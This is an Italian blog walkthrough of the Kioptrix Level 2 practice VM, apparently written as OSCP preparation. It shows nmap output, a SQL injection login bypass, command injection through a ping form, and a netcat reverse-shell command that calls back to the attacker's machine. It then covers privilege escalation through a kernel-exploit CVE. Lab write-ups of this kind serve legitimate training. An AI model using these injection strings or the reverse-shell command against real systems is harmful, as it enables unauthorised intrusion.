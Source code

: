 ```yaml
---
layout: post
title: "Getting Root: Kioptrix livello 2"
exercise: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
level: SEMPLICE
promotion: 
modified: 
featured: false
category: [getting-root]
tags: [walkthrough, oscp, kioptrix, getting-root]
comments: true
share: true
---
```


Il secondo livello di Kioptrix non presenta particolari difficoltà. Fa parte di
quelle macchine che sto usando per ricostruire l'autostima in vista della
prossima OSCP.

## Kioptrix Livello 2

Continuiamo la serie Kioptrix ed arriviamo al livello 2 disponibile
[qui]({{page.exercise}}).

Anche questa macchina virtuale è un box Linux su cui è montata una
distribuzione CentOS obsoleta.

### Setup dell'ambiente

Per iniziare, ho scaricato la [versione corretta della macchina
virtuale](http://www.kioptrix.com/dlvm/Kioptrix_Level_2.rar). La prima versione
aveva infatti un bug nella web application. Ho lasciato configurato
[VirtualBox](https://www.virtualbox.org) affinché esegua la mia [Kali
Linux](https://www.kali.org) e la macchina target in una rete ad hoc, isolata
dal mondo esterno.

Questo si ottiene andando sulle preferenze di Virtual Box, selezionando
_Network_ ed il tab _Host-only networks_.

![Impostazioni Virtual Box]({{site.url}}/assets/images/getting-root/k1/impostazioni_virtualbox.png)

Ora che tutte le macchine, all'avvio, prenderanno un indirizzo sulla 192.168.56
possiamo partire.

La macchina 192.168.56.101 è una Kali Linux aggiornata e pronta all'uso.
La macchina 192.168.56.103 è il nostro target.

![La nostra vittima all'avvio]({{site.url}}/assets/images/getting-root/k2/target.png)

### Recon

Il primo passaggio è quello di enumerare i servizi in ascolto sulla macchina,
per cercare di capire qualcosa in più.

{%highlight sh%}
# nmap -sV -O 192.168.56.103 -oA 192.168.56.103
{%endhighlight%}

{% highlight sh %}
# Nmap 7.50 scan initiated Mon Sep 11 17:28:58 2017 as: nmap -sV -O -oA 192.168.56.103 192.168.56.103
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.103
Host is up (0.00024s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:87:1E:A6 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 11 17:29:14 2017 -- 1 IP address (1 host up) scanned in 16.05 seconds
{%endhighlight%}

E' stato lanciato anche un _dirb_, che però non ha trovato cose interessanti.

### Takeover narrative

Cercando con _searchexploit_, qualche exploit già pronto per le versioni
rilevate abbiamo che per CUPS c'è qualcosa che possa darmi una shell, mentre
per Apache solamente un DoS.

Navigando sulla porta 80, ci viene presentato una maschera di login di uno
pseudo portale amministrativo.

![Login]({{site.url}}/assets/images/getting-root/k2/login_page_sulla_porta_80.png)

La pagina di login era facilmente bypassabile usando la combinazione di
credenziali _admin:foo or '1'='1_.

![Login page bypassed]({{site.url}}/assets/images/getting-root/k2/login_page_bypassed.png)

Una volta autenticati, ci viene presentata una maschera che ci permette di
eseguire un ping su un indirizzo ip passato come parametro. Questo genere di
funzionalità si presta spesso a problematiche di command injection, quando
l'input non è validato correttamente.

Infatti, usando il carattere ';' come separatore, siamo in grado di far
eseguire il comando _id_.

![Command injection]({{site.url}}/assets/images/getting-root/k2/command_injection.png)

Una shell non privilegiata sulla macchina fa sempre comodo come primo
risultato, che ne pensate? 

Bene, su una finestra di terminale, ho lanciato netcat in ascolto sulla porta 443 e poi ho cercato di fare una callback alla mia macchina.

{%highlight sh%}
$ nc -lvnp 443
{%endhighlight%}

Perché uso la 443? Preferisco usare porte di servizi conosciuti, per evitare
problemi con eventuali firewall. Servizi come 21, 53, 80, 443 in uscita da un
indirizzo IP,  possono essere dei buoni candidati.

Dopo un po' di tentativi di indovinare il path di netcat, sulla macchina
target, sono riuscito ad ottenere la mia shell col comando _192.168.56.101; /usr/local/bin/nc 192.168.56.101 443 -e /bin/sh_

![Reverse shell]({{site.url}}/assets/images/getting-root/k2/unprivileged_reverse_shell.png)

Da dentro, il primo obiettivo è capire bene di quale distribuzione si sta
parlando e soprattutto quale la versione del kernel. Questo ci permette in
seguito di cercare l'exploit migliore per elevare i privilegi della nostra
shell.

![CentOS disclosure]({{site.url}}/assets/images/getting-root/k2/centos_disclosure.png)
{%highlight sh%}

$ uname -a

Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

$ lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
{%endhighlight%}

Cerco quindi exploit per CentOS 4.5 e sono abbastanza fortunato.
![CentOS exploit]({{site.url}}/assets/images/getting-root/k2/centos_exploit.png)

Visto che le macchine, per come è stato creato il mini laboratorio, non escono
su Internet direttamente, carico gli exlploit nella mia _/var/www/html_ e
usando wget li prelevo dal target.

Provo prima l'exploit per il CVE-2009-2698 ma, una volta caricato fallisce.
Niente shell di root al primo tentativo.

![CVE-2009-2698 failed]({{site.url}}/assets/images/getting-root/k2/exploit_1_failed.png)

Provo quindi con l'exploit per il CVE-2009-2692 e questa volta, dopo aver compilato e lanciato l'exploit ho più fortuna: sono root.

![CVE-2009-2692 succeded]({{site.url}}/assets/images/getting-root/k2/root.png)

Ho cercato un po' in lungo ed in largo la flag di questa macchina ma non l'ho
trovata. Probabilmente l'autore non l'ha messa. 

### Spinoff

Andando a vedere il codice sorgente di /var/www/html/index.php è possibile ottenere la password di MySQL dell'utente john.

![index.php info disclosure]({{site.url}}/assets/images/getting-root/k2/mysql_info_disclosure.png)

![MySQL connected as john]({{site.url}}/assets/images/getting-root/k2/mysql_connected_john.png)

E connettersi con successo al database MySQL.

![MySQL connected as john]({{site.url}}/assets/images/getting-root/k2/mysql_0.png)

Andando più a fondo è stato possibile trovare le hash delle password degli
utenti del piccolo portale.

![Application hashes]({{site.url}}/assets/images/getting-root/k2/mysql_1_hash_exposed.png)

Ed infine è stato possibile risalire alla password di root su MySQL che è
_hiroshima_.

![MySQL pwd disclosure]({{site.url}}/assets/images/getting-root/k2/mysql_2_mysql_pwd_exposure.png)



## Off by one

Anche questo livello 2 di Kioptrix non ha presentato grosse difficoltà. Resta
il punto aperto del perché l'exploit per il CVE-2009-2698 non abbia funzionato,
ma non ho investigato nel dettaglio, visto lo scopo di queste esercitazioni.

Il livello 3 di Kioptrix mi aspetta.

Enjoy it!
